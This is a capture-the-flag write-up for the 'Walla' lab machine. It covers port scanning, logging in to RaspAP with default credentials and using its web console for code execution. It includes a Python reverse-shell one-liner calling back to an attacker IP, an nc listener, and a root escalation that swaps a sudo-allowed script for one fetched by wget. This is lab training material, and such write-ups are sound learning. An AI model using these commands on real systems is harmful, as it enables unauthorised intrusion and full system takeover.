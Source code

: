 ```yaml
---
description: 12/05/2022
---
```


# Walla (Intermediate)

## Information Gathering

Scanned all TCP ports:

```
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 02715dc8b943ba6ac8ed15c56cb2f5f9 (RSA)
|   256 f3e510d416a99e034738baac18245328 (ECDSA)
|_  256 024f99ec856d794388b2b57cf091fe74 (ED25519)
23/tcp    open  telnet     Linux telnetd
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: walla, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING
| ssl-cert: Subject: commonName=walla
| Subject Alternative Name: DNS:walla
| Issuer: commonName=walla
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-09-17T18:26:36
| Not valid after:  2030-09-15T18:26:36
| MD5:   097cbda176ab9b73c8ef68ab84e9a055
|_SHA-1: 6c4bfee30bd6d9102ef9f81a3a4172d831bdbaac
|_ssl-date: TLS randomness does not represent time
53/tcp    open  tcpwrapped
422/tcp   open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 02715dc8b943ba6ac8ed15c56cb2f5f9 (RSA)
|   256 f3e510d416a99e034738baac18245328 (ECDSA)
|_  256 024f99ec856d794388b2b57cf091fe74 (ED25519)
8091/tcp  open  http       lighttpd 1.4.53
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-favicon: Unknown favicon MD5: B5F9F8F2263315029AD7A81420E6CC2D
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=RaspAP
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: lighttpd/1.4.53
42042/tcp open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 02715dc8b943ba6ac8ed15c56cb2f5f9 (RSA)
|   256 f3e510d416a99e034738baac18245328 (ECDSA)
|_  256 024f99ec856d794388b2b57cf091fe74 (ED25519)
Service Info: Host:  walla; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Enumerated UDP ports:

```
PORT     STATE         SERVICE  VERSION
53/udp   open|filtered domain
67/udp   open|filtered dhcps
631/udp  open|filtered ipp
5353/udp open|filtered zeroconf
```

Notes:

* SSH open on 42042, 422, and 22 is open
* Telnet 23 is open -- Strange
* SMTP 25 is open
* <mark style="color:yellow;">HTTP 8091 is open -- Lighttpd 1.4.53</mark>
  * RaspAP

## Enumeration

### Port 8091 - HTTP (Lighttpd--RaspAP)

Visual:

<figure><img src="../../../.gitbook/assets/image (3) (1).png" alt=""><figcaption><p>admin:secret (Default Credentials)</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (5) (2).png" alt=""><figcaption><p>Discovering Default Credentials</p></figcaption></figure>

* We now have access to the RaspAP login page!

## Exploitation

* [http://192.168.66.97:8091/index.php?page=system\_info#console](http://192.168.66.97:8091/index.php?page=system\_info#console)
* Upon navigating to the following site, you can execute commands in the following window/web shell!!!

{% embed url="https://github.com/gerbsec/CVE-2020-24572-POC" %}
Not needed, but cool
{% endembed %}

Start nc Listener:

```
sudo rlwrap nc -lnvp 42042
```

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192
.168.49.66",42042));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

<figure><img src="../../../.gitbook/assets/image (13).png" alt=""><figcaption><p>Utilizing exploit to craft us a reverse shell!</p></figcaption></figure>

* Or you could simply use revshells

{% embed url="https://www.revshells.com/" %}

<figure><img src="../../../.gitbook/assets/image (7) (9).png" alt=""><figcaption><p>RaspAP Webshell</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (14).png" alt=""><figcaption><p>Landed as www-data</p></figcaption></figure>

## Privilege Escalation

Sudo -l Enumeration:

<figure><img src="../../../.gitbook/assets/image (2) (10).png" alt=""><figcaption><p>Interesting file</p></figcaption></figure>

### Local enumeration

Linpeas:

```
/etc/mysql/mariadb.cnf


╔══════════╣ Searching tables inside readable .db/.sql/.sqlite files (limit 100)
Found /etc/aliases.db: Berkeley DB (Hash, version 9, native byte-order)
```

### PrivEsc vector

<mark style="color:yellow;">sudo /usr/bin/python /home/walter/wifi\_reset.py</mark>

Remove wifi\_reset.py:

{% code overflow="wrap" %}
```
rm -f /home/walter/wifi_reset.py
```
{% endcode %}

Replace with wifi\_reset.py:

```
import os

os.system('/bin/bash')
```

Transfer to Victim:

```
cd /home/walter

wget 192.168.49.66/wifi_reset.py
```

Execute Binary:

```
sudo /usr/bin/python /home/walter/wifi_reset.py
```

## Proofs

<figure><img src="../../../.gitbook/assets/image (4).png" alt=""><figcaption><p>Root</p></figcaption></figure>

